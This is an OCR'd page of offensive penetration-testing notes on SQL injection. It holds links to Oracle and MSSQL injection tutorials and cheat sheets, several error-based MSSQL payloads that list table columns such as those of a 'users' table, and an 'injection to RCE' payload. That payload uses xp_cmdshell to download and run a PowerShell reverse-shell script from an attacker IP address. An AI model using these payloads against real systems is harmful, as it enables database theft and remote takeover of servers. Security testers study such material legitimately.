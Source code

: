 -   [**[http://lastc0de.blogspot.com/2013/07/tutorial-sql-injection-manual.html]{.underline}**](http://lastc0de.blogspot.com/2013/07/tutorial-sql-injection-manual.html)

[**[https://exploit.linuxsec.org/tutorial-sql-injection-manual/]{.underline}**](https://exploit.linuxsec.org/tutorial-sql-injection-manual/)

## SQLINJECTION ORACLE CHEATSEET

-   [**[http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html]{.underline}**](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html)

## MSSQL SQL INJECTION :

[**[https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf]{.underline}**](https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf)

[**[https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/]{.underline}**](https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/)

[**[https://bhanusnotes.blogspot.com/2019/09/sql-injection-cheat-sheet.html]{.underline}**](https://bhanusnotes.blogspot.com/2019/09/sql-injection-cheat-sheet.html)

**[\',convert(int,(select top(1) COLUMN_NAME from
information_schema.columns where TABLE_NAME=cast(0x6e6577736c6574746572
as varchar))))\--]{.underline}**

**[\',convert(int,(select top 1 column_name from
information_schema.columns where table_name=\'users\' and column_name
not in (\'user_id\') and column_name not in (\'username\') and
column_name not in (\'email\'))))\--]{.underline}**

**[\',convert(int,(select top 1 column_name from
information_schema.columns where
table_name=\'archieve\')))\--]{.underline}**

**[Mssql injection to rce]{.underline}**

[**[https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell-with-nishang]{.underline}**](https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell-with-nishang/)

[**[https://www.tarlogic.com/blog/red-team-tales-0x01/]{.underline}**](https://www.tarlogic.com/blog/red-team-tales-0x01/)

**[https://gist.github.com/cyberheartmi9/256df4b98af323fa96f182916f0e3d00]{.underline}**

admin\';EXEC master.dbo.xp_cmdshell \"powershell IEX(New-Object
Net.webclient).downloadString(\'[[http://192.168.119.153/]{.underline}](http://192.168.119.161/Invoke-PowerShellTcp.ps1)Invoke-PowerShellTcpOneLine.ps1\')\"\--

# 

# Password-Hash Cracking
